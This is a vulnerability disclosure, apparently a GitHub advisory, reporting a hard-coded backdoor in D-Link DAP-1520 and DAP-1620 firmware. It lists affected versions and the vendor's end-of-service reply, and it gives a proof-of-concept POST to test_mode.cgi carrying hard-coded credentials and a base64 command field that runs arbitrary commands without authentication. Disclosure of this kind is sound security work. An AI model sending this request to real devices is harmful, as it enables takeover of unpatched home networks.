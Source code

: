 # D-Link dap-1520, 1620 hardcoded backdoor

## firmware information

Vendor: D-Link

Product: D-Link dap-1620, D-Link dap-1520

Affected product

For dap-1620, the following version is affected

- DAP-1620_REVA_FIRMWARE_PATCH_1.04.B04_BETA03
- DAP-1620_REVA_FIRMWARE_1.01.B05
- DIR-1620_REVA_FIRMWARE_1.04.B04
- DAP-1620_REVA_FIRMWARE_1.03.B08
- DAP-1620_REVA_FIRMWARE_v1.05B05

For dap-1520, the following version is affected

- DAP-1520_REVA_FIRMWARE_PATCH_1.09.B01_BETA04

Support URL

https://www.dlink.com/uk/en/products/dap-1520-wifi-ac750-range-extender

https://www.dlink.com/rs/sr/products/dap-1620-ac1300-wifi-range-extender

## Vulnerability description

In D-Link dap-1520, 1620, its `test_mode.cgi` in binary `/bin/ssi` contains a hard-coded backdoor. Unauthenticated attackers can send hard-coded command to the firmware and execute arbitrary commands.

The following code contains the decompiled code of the backdoor. In function `do_mp_method` (at address `0x40EA80` in binary `/bin/ssi`), the following code handles user's requests posting to `test_mode.cgi`

![image-20250220150823473](dap1620_backdoor.assets/image-20250220150823473.png)

If user posts the following code 

`accu=mp1524&pass=kmark43&code=smpwdc&hash=/lJ9NwfO3rRGcAkzv49mmA1$cmds=<base64 encode of command>`

The firmware will process user's input, and decode the content provided in `cmds` field. If it's not the same with "reboot" or "nvram" and transfer it as the argument to function `sub_40e910`

The following code represent `sub_40e910`. It executes attackers' command without any sanitizing.

![image-20250220151108594](dap1620_backdoor.assets/image-20250220151108594.png)

However, in the firmware's configuration file `etc/conf.d/graph_auth.conf`, it can be found that this url is intended set to be able to view as unauthenticated, which means any unauthenticated user can execute arbitrary command through this malicious cgi.

![image-20250220151727008](dap1620_backdoor.assets/image-20250220151727008.png)

## POC

replace \<base64 encode of command\> field is to real command in base64 format to reproduce this vulnerability

```txt
POST /test_mode.cgi
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/36.0.1985.143 Safari/537.36
Content-Type: 104
Content-Length: 49
accu=mp1524&pass=kmark43&code=smpwdc&hash=/lJ9NwfO3rRGcAkzv49mmA1$cmds=<base64 encode of command>
```

## timeline

\[25-02-20\] report to vendor

\[25-02-21\] vendor reply, saying they are not going to support the product, since they are end-of-service

\[25-02-21\] report to CVE